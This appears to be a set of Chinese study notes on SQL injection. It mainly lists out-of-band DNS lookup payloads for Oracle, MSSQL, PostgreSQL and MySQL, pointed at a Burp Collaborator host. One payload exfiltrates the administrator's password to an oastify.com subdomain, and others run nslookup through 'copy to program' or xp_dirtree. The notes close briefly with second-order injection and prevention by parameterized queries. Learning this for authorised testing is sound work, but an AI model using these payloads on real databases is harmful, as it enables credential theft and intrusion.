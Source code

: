 BurpSuite 打开 Burp 中的Burp Collaborator client
生成DNS 点击Copy to clipboard 复制域名

#### 构造DNS lookup语句

*备注*
甲骨文	
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?> < !DOCTYPE root [ < ! ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/" > %remote; ] >'),'/l') FROM dual

以下技术适用于完全修补的 Oracle 安装，但需要提升权限：
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')

微软	
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL	
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL	以下技术仅适用于 Windows：
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'

#### 带有数据泄露的 DNS 查找 

构造语句
>'|| (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>< !DOCTYPE root [ < !ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.604dmwveewo3kfsvv5aqbj3b72du1j.oastify.com/"> %remote;]>'),'/l') FROM dual)--

*备注*
**甲骨文** 		
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>< !DOCTYPE root [ < !ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual	
**微软** 		
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
**PostgreSQL** 	
create OR replace function f() returns void as &#36;&#36;
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
&#36;&#36;language plpgsql security definer;
SELECT f();
**MySQL**
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'

## 二阶SQL注入

一阶 SQL 注入出现在应用程序从 HTTP 请求中获取用户输入并在处理该请求的过程中以不安全的方式将输入合并到 SQL 查询中的情况。

在二阶 SQL 注入（也称为存储 SQL 注入）中，应用程序从 HTTP 请求中获取用户输入并将其存储以供将来使用。这通常是通过将输入放入数据库来完成的，但在存储数据的位置不会出现漏洞。稍后，当处理不同的 HTTP 请求时，应用程序会检索存储的数据并以不安全的方式将其合并到 SQL 查询中。

## 防止SQL注入

通过使用参数化查询
通过建立白名单查询
